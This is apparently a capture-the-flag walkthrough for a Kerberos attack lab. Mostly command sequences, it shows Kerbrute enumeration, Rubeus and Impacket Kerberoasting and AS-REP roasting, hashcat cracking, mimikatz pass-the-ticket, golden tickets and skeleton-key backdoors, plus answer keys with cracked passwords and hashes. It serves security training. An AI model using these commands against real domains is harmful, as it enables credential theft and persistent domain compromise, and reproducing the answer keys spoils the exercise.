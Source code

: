 # Attacking Kerberos - Easy

1. [Introduction](#introduction)
2. [Enumeration with Kerbrute](#enumeration-with-kerbrute)
3. [Harvesting & Brute-Forcing Tickets with Rubeus](#harvesting--brute-forcing-tickets-with-rubeus)
4. [Kerberoasting with Rubeus & Impacket](#kerberoasting-with-rubeus--impacket)
5. [AS-REP Roasting with Rubeus](#as-rep-roasting-with-rubeus)
6. [Pass the Ticket with mimikatz](#pass-the-ticket-with-mimikatz)
7. [Golden/Silver Ticket Attacks with mimikatz](#goldensilver-ticket-attacks-with-mimikatz)
8. [Kerberos Backdoors with mimikatz](#kerberos-backdoors-with-mimikatz)

## Introduction

* Kerberos is the default authentication service for Microsoft Windows domains.

* For Kerbrute Enumeration, we do not require domain access.

```markdown
1. What does TGT stand for? - Ticket Granting Ticket

2. What does SPN stand for? - Service Principal Name

3. What does PAC stand for? - Privilege Attribute Certificate

4. What two services make up the KDC? - AS, TGS
```

## Enumeration with Kerbrute

* Kerbrute is an enumeration tool used to brute-force and enumerate valid AD (Active Directory) users by abusing Kerberos pre-authentication.

```shell
sudo vim /etc/hosts
#add 10.10.242.168 CONTROLLER.local to /etc/hosts

cd ~/Tools/

./kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local ~/Downloads/User.txt
#Kerbrute enumeration
#--dc and -d for location of domain controller
#the usernames are in the form of name@CONTROLLER.local
```

```markdown
1. How many total users do we enumerate? - 10

2. What is the SQL service account name? - sqlservice

3. What is the second "machine" account name? - machine2

4. What is the third "user" account name? - user3
```

## Harvesting & Brute-Forcing Tickets with Rubeus

* Rubeus is a tool used for attacking Kerberos.

```shell
#rubeus is in the target machine
#so we need to ssh to target machine
ssh Administrator@10.10.242.168

cd Downloads

dir

Rubeus.exe harvest /interval:30
#harvest for TGTs every 30 seconds

#we can use Rubeus for brute-forcing and password-spraying as well

echo 10.10.242.168 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
#add domain controller domain name to Windows hosts file

Rubeus.exe brute /password:Password1 /noticket
#sprays password against all found users and gives .kirbi TGT for that user
```

```markdown
1. Which domain admin do we get a ticket for when harvesting tickets? - Administrator

2. Which domain controller do we get a ticket for when harvesting tickets? - CONTROLLER-1
```

## Kerberoasting with Rubeus & Impacket

* Kerberoasting attack allows user to request a service ticket for any service with a registered SPN, then use that ticket to crack the service password.

* Furthermore, we can use a tool like BloodHound to find Kerberoastable accounts.

```shell
#Kerberoasting with Rubeus

Rubeus.exe kerberoast /outfile:hashes.txt /format:hashcat
#dumps Kerberos hash of any Kerberoastable users
#copy both hashes to attacker machine and crack with hashcat
```

```shell
#Kerberoasting with Impacket
#this can be done remotely
cd /usr/share/doc/python3-impacket/examples

sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.242.168 -request
#dump Kerberos hashes
```

```shell
#cracking with hashcat in attacker machine
hashcat -m 13100 -a 0 sqlhash.txt Pass.txt

hashcat -m 13100 -a 0 httphash.txt Pass.txt
```

```markdown
1. What is the HTTPService Password? - Summer2020

2. What is the SQLService Password? - MYPassword123#
```

## AS-REP Roasting with Rubeus

* AS-REP Roasting dumps krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled.

```shell
#in target machine
Rubeus.exe asreproast
#dumps hashes
#copy hashes to attacker machine
```

```shell
#in attacker machine
hashcat -m 18200 --example-hashes

#we need to insert 23$ after $krb5asrep$ in the hashes

hashcat -m 18200 Admin2hash.txt Pass.txt

hashcat -m 18200 User3hash.txt Pass.txt
```

```markdown
1. What hash type does AS-REP Roasting use? - Kerberos 5, etype 23, AS-REP

2. Which user is vulnerable to AS-REP Roasting? - User3

3. What is the user's password? - Password3

4. Which admin is vulnerable to AS-REP Roasting? - Admin2

5. What is the admin's password? - P@$$W0rd2
```

## Pass the Ticket with mimikatz

* ```mimikatz``` is a post-exploitation tool used for dumping user credentials inside of an AD network.

* Here we can use it to dump a TGT from LSASS memory.

```shell
mimikatz.exe

privilege::debug

sekurlsa::tickets /export
#exports all .kirbi tickets into current directory

#pass the ticket using mimikatz

kerberos::ptt <ticketfile>
#cache and impersonate given ticket

#quit mimikatz

klist
#lists cached tickets
```

## Golden/Silver Ticket Attacks with mimikatz

* A silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

* A KRBTGT is the service account for the KDC (Key Distribution Center).

* A TGT is a ticket to a service account issued by the KDC.

```shell
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt
#dumps krbtgt hash

lsadump::lsa /inject /name:sqlservice
#dumps sqlservice hash

lsadump::lsa /inject /name:administrator
#dumps administrator hash

kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:2777b7fec870e04dda00cd7260f7bee6 /id:1103
#create golden ticket

misc::cmd
#open elevated command prompt with given ticket
#this attack requires other machines on the domain to work
```

```markdown
1. What is the SQLService NTLM Hash? - cd40c9ed96265531b21fc5b1dafcfb0a

2. What is the Administrator NTLM Hash? - 2777b7fec870e04dda00cd7260f7bee6
```

## Kerberos Backdoors with mimikatz

* Kerberos backdoor works by implanting a skeleton key which abuses the AS-REQ timestamp encryption (only works for Kerberos RC4 encryption).

```shell
mimikatz.exe

privilege::debug

misc::skeleton
#now we can access the network using default cred 'mimikatz'
```
